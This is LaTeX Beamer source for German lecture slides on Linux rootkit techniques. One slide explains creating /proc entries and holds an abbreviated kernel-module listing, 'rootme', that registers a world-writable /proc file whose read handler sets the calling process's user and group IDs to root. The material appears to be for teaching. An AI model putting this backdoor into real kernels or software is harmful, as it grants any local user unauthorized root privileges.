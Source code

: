 \documentclass[german]{beamer}
\begin{document}
\subsection{Syscall Tabelle}

\subsection{VFS Einträge}
\begin{frame}[fragile]
\frametitle{VFS Einträge}
\begin{itemize}
	\item \texttt{/proc} Dateien erstellen
	\item beim Zugriff \texttt{task\_struct} verfügbar
	\item \texttt{pid, gid, ...} ändern
\end{itemize}
\begin{lstlisting}[frame=single,caption=Proc Eintrag + Rootme,label=lst:procrootkit]
int init_module(void) {
            proc_ent = create_proc_entry(PROCNAME, 0777, NULL);
            ...
            proc_ent->read_proc = rootme;
            ...
}

int rootme(char* buffer, char** buffer_location, off_t offset, int buffer_length, 
       int* eof, void* data) {
            current->uid = 0;
            current->gid = 0;
            current->euid = 0;
            current->egid = 0;
            ...
}
\end{lstlisting}
\end{frame}
\end{document}
